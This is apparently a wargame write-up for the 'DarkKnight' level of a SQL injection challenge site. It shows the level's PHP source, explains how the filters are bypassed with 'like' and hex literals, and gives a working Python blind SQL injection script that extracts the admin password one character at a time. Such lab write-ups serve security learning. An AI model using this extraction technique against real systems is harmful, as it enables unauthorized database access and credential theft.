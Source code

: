# **DarkKnight**

```shell=
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

I haven't found the method to escape the `$_GET[no]"; ` then injecting the `$_GET[pw]` just like before.

So, this script is focus on injecting the `$_GET[no]`, which has more restrict than `$_GET[pw]`.

Accroding to `preg_match('/\'|substr|ascii|=/i', $_GET[no])`, `=` should change to `like` and some reason I still trying to findout that hex/ascii problem of this site, `admin` should change to `0x61646D696E`.

```shell=
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?no="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""

pwNotInChar = False
for i in range(len(Passwd)+1,100):
    for c in "0123456789abcdefghijklmnopqrstuvwxyz+":

        Payload="1 || id like 0x61646D696E && mid(pw,"+str(i)+",1) like "+str(hex(ord(c)))

        HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

        print (Payload)
                
        if (b"Hello admin" in HTTP.getresponse().read()):
            Passwd+=c
            print ("[+] Found: %c" % c)

            HTTP.request("GET",Url+urllib.parse.quote(Passwd),"",Headers)
            if (b"Clear" in HTTP.getresponse().read()):
                print ("[*] Password: %s" % Passwd)

            break
        if (str(c) == "+"):
            pwNotInChar = True
            break
    if(pwNotInChar == True):
        break
    
print ("[!] Not Found")
print ("[*] Password: %s" % Passwd)
```

![](https://i.imgur.com/namBCBU.png)

The final payload is : 
`?pw=1c62ba6f`
